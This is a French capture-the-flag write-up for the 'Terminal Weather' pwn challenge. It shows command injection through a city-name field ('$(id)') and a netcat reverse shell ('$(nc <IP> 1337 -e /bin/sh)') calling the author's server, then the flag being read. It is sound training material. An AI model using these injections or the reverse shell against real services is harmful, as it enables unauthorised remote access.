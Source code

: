 ```yaml
---
title: "[ESAIP CTF] - Terminal Weather (479)"
date: 2022-01-02
categories: ['pwn']
draft: false
---
```

---

---
### Author : `Rxphgui` 
---

Nous allons aujourd'hui voir le dernier challenge en pwn de l'ESAIP CTF.
Nous n'avions pas de binaire simplement un remote.

Lorsque nous nous connections nous avions cela :

```bash
[raphgui@ret2arch:Téléchargements/pwn][1]$ nc terminal-weather.esaip-cyber.com 55555               (06-05 17:00)
Welcome to the Terminal Weather Service

----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice:
```

## Introduction

Ce challenge est celui qui m'a prit le plus de temps (2 heures). Pourtant le principe est simple, on va y venir.
Nous avons donc un menu avec des options tels que :

```
- Change city
- Get weather
```

Nous pouvons donc enlever les éventuelles technique de heap traditionnelles (Uaf & Double Free).

Nous allons alors tester le changement de ville pour voir ce qu'il se passe : 

```bash
----- Change city -----
Enter the new city name: MILF
New city: MILF

----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice:
```
Nous allons tester d'avoir le temps de cette ville :

```bash
----- Weather -----
MILF: ⛅️ (Partly cloudy) +31°C 🌒 1012hPa


----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice:
```

## Exploitation 

On comprends donc qu'il faudrait passer comme nom de ville notre payload. Au bout de plusieurs essaie, je teste ça :

```bash
----- Change city -----
Enter the new city name: /bin/sh
New city: /bin/sh

----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice: 2

----- Weather -----
<a href="/bin/sh?format=%l:+%c(%C)+%t+%m+%P\n">Moved Permanently</a>.
```

Nous avons réussi à avoir une erreur. C'est à ce moment là que j'ai perdu énormement de temps.
Je pensais pouvoir refermer la balise et ensuite injecter une commande.
Et j'ai passé plus d'une heure sur ça.

Ensuite j'arrive à avoir une erreur qui me donne un compte Twitter :

```bash
Follow @igor_chubin for wttr.in updates
```

En checkant son twitter, il s'agit du créateur de l'API pour le temps. Pour intéragir avec son API, nous devons faire un :

```
curl wttr.in/<la ville>
```

On comprend donc à ce moment là que c'est le cas avec notre programme.

## GET A SHELL

J'ai essayé les commandes injections telles que  :

```
ls; | ls# ...
```

Certain caractère étaient filtrés.

Puis j'ai trouvé cela :

```bash
----- Change city -----
Enter the new city name: $(id)
New city: $(id)

----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice: 2

----- Weather -----
>>>    _  _    ___  _  _        
>>>   | || |  / _ \| || |         
>>>   | || |_| | | | || |_         
>>>   |__   _| |_| |__   _|         
>>>      |_|  \___/   |_|       
>>>                          
>>>   404 UNKNOWN LOCATION: uid=1000(challenge)   
>>>                    
----
```

Nous avons donc réussi à injecter une comande qui a été exécuté par le serveur. 
J'ai donc fais un `ls` pour voir ce qu'on avait :

```bash
entrypoint.sh
```

Lancer des commandes par le nom de la ville, est assez long. Il nous faut un shell.

## GET A SHELL

Pour cette dernière partie, nous allons donc tenter d'obtenir un reverse shell.

```bash
----- Change city -----
Enter the new city name: $(nc 141.95.159.112 1337 -e /bin/sh)
New city: $(nc 141.X.X.X 1337 -e /bin/sh)
```

Nous avons alors une connection sur le VPS :

```
rxph@vps-d9a65da8:~$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on 20.74.23.147 2048 
id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
ls -lah
total 20K    
drwxr-x---    1 root     challeng    4.0K Jun  3 17:18 .
drwxr-xr-x    1 root     root        4.0K Jun  5 10:48 ..
-rwxr-x---    1 root     challeng      31 Jun  3 17:15 .flag.txt
-rw-r-x---    1 root     challeng     117 Jun  3 17:18 entrypoint.sh
-rwxr-x---    1 root     challeng    1.2K Jun  3 17:15 weather.py
cat .flag.txt
ECTF{N0_W347h3r_f0r_b4d_b0yyy5}
```

Ce challenge était super cool, j'ai pu passé une bonne partie de ce challenge à chercher avec [hashp4](https://milfctf.com/about/#hashp4).

